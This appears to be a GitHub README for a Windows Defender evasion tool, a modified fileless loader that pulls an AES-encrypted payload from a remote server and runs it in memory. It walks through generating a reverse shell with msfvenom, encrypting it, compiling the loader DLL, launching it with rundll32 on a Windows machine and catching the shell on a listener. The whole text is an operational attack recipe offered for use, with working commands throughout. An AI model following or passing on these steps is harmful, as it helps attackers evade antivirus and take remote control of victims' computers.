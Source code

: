 # Windows-Defender-Bypass

Tested on 31-07-2023.  [Defender may detect it at the time of you using this. Feel free to do any modifications.]

This is a modified version of @TheD1rkMtr's FilelessPELoader program. The link to the original repo is https://github.com/TheD1rkMtr/FilelessPELoader/. 
It works by loading Remote AES Encrypted PE in memory, decrypts it and run it.


STEPS TO REPRODUCE:
1. Clone the repository.
2. Edit the IP , port in FilelessPELoader.cpp script.
3. Use the aes.py script to create a encrypted bin files.
   In the POC, I generated the reverse shell payload using msfvenom and encrypted it using aes.py. The syntax for the same is
```msfvenom -p windows/x64/shell_reverse_tcp lhost=IP lport=PORT -f exe -o shell.exe```

```python3 aes.py shell.exe```

Successfull execution of the above command will result two files named cipher.bin and key.bin.

4. Use the following command to compile FilelessPELoader.cpp to a dll.
```x86_64-w64-mingw32-g++ FilelessPELoader.cpp -l winhttp -shared --static -o a.dll```

5.Once dll is created, start the web server and your listener.
6. Transfer the dll to a windows machine.
7. Open command prompt and run the following command.

```rundll32 a.dll, DllRegistryServer```

8. After a second, You will see the connection in your terminal where you started your listener.
